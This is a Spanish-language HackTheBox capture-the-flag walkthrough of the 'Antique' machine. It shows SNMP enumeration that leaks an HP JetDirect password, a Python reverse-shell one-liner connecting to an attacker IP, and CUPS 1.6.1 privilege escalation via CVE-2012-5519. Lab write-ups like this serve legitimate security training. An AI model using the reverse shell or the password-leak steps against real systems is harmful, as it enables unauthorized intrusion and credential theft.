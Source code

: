 ```yaml
---
title: Antique | Linux
published: 2025-03-21
image: "./logo.png"
tags: [Easy, SNMP Enum, Netowrk Printer Abuse, CVE-2012-5519, eJPT ]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- SNMP Enumeration
- Network Printer Abuse
- CVE-2012-5519

### Preparación

- eJPT

***

## Reconocimiento

Para comenzar usaremos el comando **scan**, para ver que puertos abiertos tiene la máquina:

```sh
scan () {
	sudo nmap -sS --min-rate=5000 -p- --open -vvv -n -Pn "$1" -oG "nmap/AllPorts"
}
```

Nos devuelve lo siguiente:

```
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63
```

### Telnet

Solo vemos el puerto **23** que corresponde al servicio **telnet**. Vamos a conectarnos con el comando:

```
telnet 10.10.11.107
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FChMY3zAAwsvvi4yQsLd3%2F1.png?alt=media&#x26;token=13b3bc90-ed0c-49ed-be65-56b887e6d836" alt=""><figcaption></figcaption></figure>

Vemos que es un **HP JetDirect** que buscando en google es un servidor de impresión. Vamos ahora a hacer un escaneo **UDP** en vez de **TCP**.

```
sudo nmap -sU --top-ports 10 -sV 10.10.11.107
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FzjCwxsrq4nxhKp4HUAQd%2F2.png?alt=media&#x26;token=61463237-6cc4-4776-b394-08a0d99c2187" alt=""><figcaption></figcaption></figure>

## Explotación

Buscando información sobre el servicio **SNMP** en **HP JetDirect**, podemos ver un problema de seguridad grave en este artículo ([https://www.exploit-db.com/exploits/22319](https://www.exploit-db.com/exploits/22319)). Añadiremos el dominio `antique.htb` a `/etc/hosts`, y ejecutamos el siguiente comando:

```sh
snmpwalk -v 2c -c public antique.htb .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

```sh
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

La vulnerabilidad habla de que si decodificamos esos bits que nos devuelve es bastante probable que encontremos la contraseña de la impresora. Esto se debe a un fallo de seguridad que filtra la contraseña en algunas circunstancias. Lo decodificaremos con la herramienta **xxd** que se usa especialmente en hexadecimal:

```sh
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 \106 111 114 115 119 122 123 126 130 131 134 135" | xxd -r -p
```

```
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5%
```

Podríamos intentar a loguearnos con `P@ssw0rd@123!!123`&#x20;

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFrl82by8JUJiW2SXcPIO%2F3.png?alt=media&#x26;token=4227459d-3824-47e1-bb7c-007b83fadd85" alt=""><figcaption></figcaption></figure>

Una vez teniendo esto podemos intentar entablar una reverse shell a nuestra máquina para mayor comodidad. Haremos una con **python3** con el siguiente comando:

```sh
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FH0U2n0FX9hFJENBwbLBq%2F4.png?alt=media&#x26;token=0a8d8b39-5efa-416c-a1ba-0c7d280f5736" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para comenzar, veremos que puertos abiertos hay en el sistema, usaremos el comando **ss**. A continuación una explicación de este comando y los parámetros que usaremos.

El comando `ss` en Linux se utiliza para mostrar información sobre las conexiones de red y los sockets en uso en el sistema. Es una alternativa más rápida y eficiente que `netstat`.

El parámetro `-tulpn` tiene el siguiente significado:

* `-t` → Muestra solo sockets TCP.
* `-u` → Muestra solo sockets UDP.
* `-l` → Muestra solo sockets en estado de escucha (listening).
* `-p` → Muestra el proceso que está usando el socket.
* `-n` → Muestra las direcciones y puertos en formato numérico (sin resolver nombres de dominio).

```
ss -tulpn
```

```
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:161           0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:23            0.0.0.0:*       users:(("python3",pid=1039,fd=3))                                              
tcp     LISTEN   0        4096           127.0.0.1:631           0.0.0.0:*                                                                                      
tcp     LISTEN   0        4096               [::1]:631              [::]:*                                                                                      
```

Podemos ver el puerto **631**, vamos a hacer un curl desde la máquina comprometida a ver que podemos encontrar.

```
curl http://127.0.0.1:631
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
	<META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
	<TITLE>Home - CUPS 1.6.1</TITLE>
	<LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
	<LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>...
```

### Cups (CVE-2012-5519)

Vemos que está corriento **Cups**, podemos buscar vulnerabilidades para dicha versión la **1.6.1**. Buscando en internet encontramos un exploit que permite la lectura de archivos con privilegios. ([https://github.com/p1ckzi/CVE-2012-5519](https://github.com/p1ckzi/CVE-2012-5519)).

Si la ejecutamos en la máquina víctima podremos leer `/root/root.txt`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FwWQREzazKRfy273B2vkl%2F5.png?alt=media&#x26;token=30354c02-4038-4a37-85a5-c8c031be65f4" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/400)

---